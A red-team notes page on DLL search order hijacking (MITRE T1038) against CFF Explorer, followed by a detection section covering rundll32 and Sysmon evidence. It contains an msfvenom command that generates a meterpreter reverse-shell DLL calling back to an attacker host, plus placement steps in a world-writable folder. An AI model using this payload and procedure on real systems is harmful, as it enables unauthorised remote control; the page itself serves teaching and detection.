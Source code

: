 ```yaml
---
layout: post
title: "2024-06-18-t1038 dll hijacking"
date: 2024-06-18
categories: privilege-escalation
tags: redteam, mitre, killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /t1038-dll-hijacking/
---
```


---
description: DLL Search Order Hijacking for privilege escalation, code execution, etc.
---

# DLL Hijacking

## Execution

Generating a DLL that will be loaded and executed by a vulnerable program which connect back to the attacking system with a meterpreter shell:

{% code title="attacker@kali" %}
```csharp
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.0.0.5 LPORT=443 -f dll > evil-meterpreter64.dll
```
{% endcode %}

To illustrate this attack, we will exploit our beloved tool `CFF Explorer.exe` . Once the program is executed, it attempts to load `CFF ExplorerENU.dll` from the location the program is installed to, however that DLL cannot be loaded (note the NAME NOT FOUND) as it does not exist in the given path:

![](../../.gitbook/assets/dll-missing.png)

Luckily for the attacker, the location in which the DLL is being looked for - is world writable! Let's move our evil DLL `evil-meterpreter64.dll` to `C:\Program Files\NTCore\Explorer Suite` and rename it to `CFF ExplorerENU.dll`&#x20;

![](../../.gitbook/assets/dll-moved.png)

Launching the program again gives different results - DLL is found (SUCCESS):

![](../../.gitbook/assets/dll-success.png)

which is good news for the attacker - the DLL code gets executed, which gives attacker a meterpreter shell:

![](../../.gitbook/assets/dll-shell.png)

## Observations

On the victim system, we can only see rundll32 with no associated parent process and established connection - this should raise your suspicion immediately:

![](../../.gitbook/assets/dll-rundll.png)

Looking at the rundll32 image info, we can see the current directory, which is helpful:

![](../../.gitbook/assets/dll-noparent.png)

Looking at the sysmon logs gives us a better understanding of what happened - CFF Explorer.exe was started as a process `4856` which then kicked off a rundll32 (`1872`) which then established a connection to 10.0.0.5:

![](<../../.gitbook/assets/dll-logs (1).png>)

## References

{% embed url="https://attack.mitre.org/wiki/Technique/T1038" %}

{% embed url="https://pentestlab.blog/2017/03/27/dll-hijacking/" %}

\
@spotheplanet
